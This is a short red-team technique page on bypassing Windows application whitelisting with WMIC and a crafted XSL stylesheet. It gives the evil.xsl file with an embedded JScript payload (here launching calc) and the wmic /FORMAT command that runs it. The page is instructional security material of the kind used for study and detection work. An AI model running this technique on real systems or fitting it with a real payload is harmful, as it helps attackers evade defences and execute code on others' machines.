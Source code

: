 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% page-ref page="t1117-regsvr32-aka-squiblydoo.md" %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}




